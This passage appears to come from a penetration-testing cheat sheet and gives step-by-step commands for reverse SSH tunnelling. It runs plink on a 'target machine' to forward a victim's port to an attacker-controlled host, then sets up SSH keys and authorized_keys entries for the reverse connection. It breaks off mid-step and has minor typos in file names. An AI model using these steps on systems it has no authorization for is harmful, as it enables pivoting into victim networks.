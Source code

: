     2. **Run Reverse Connection in Target Machine**

        First of all, generate SSH keys. Two keys (public and private) will be generated.

        ```sh
        ssh-keygen
        ```

        Convert the private key for Windows.

        ```sh
        puttygen private_key -o private_key.ppk
        ```

        Run reverse connection using plink.

        ```sh
        cmd.exe /c echo y | .\plink.exe -R <attack-port>:<victim-ip>:<victim-port> attacker@<attack-ip> -i private_key.ppk -N
        ```

2. **Use SSH**

    1. **Generate SSH Keys in Remote Machine**

        ```sh
        ssh-keygen
        ```

        Then save them (public key and private key) to arbitrary folder.

        ```sh
        mkdir /home/remote-user/reverse-keys
        mv id_rsa /home/remote-user/reverse-keys
        mv id_rsa.pub /home/remote-user/reverse-keys
        ```

        Copy the content of public key (id_rsa.pug).

    2. **Add Content of Public Key to authorized_key in Your Local Machine**

        ```sh
        echo 'content of publick key' >> ~/.ssh/authorized_key
        ```

        To clarify that the key only for reverse connection, add the following line to this content in authorized_key.

        ```sh
        # ~/.ssh/authorized_key
        command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty id-rsa
        AAAAAB3NzaC........
        ```

        Check if SSH server is running.  
        If the server is not running, start SSH server.
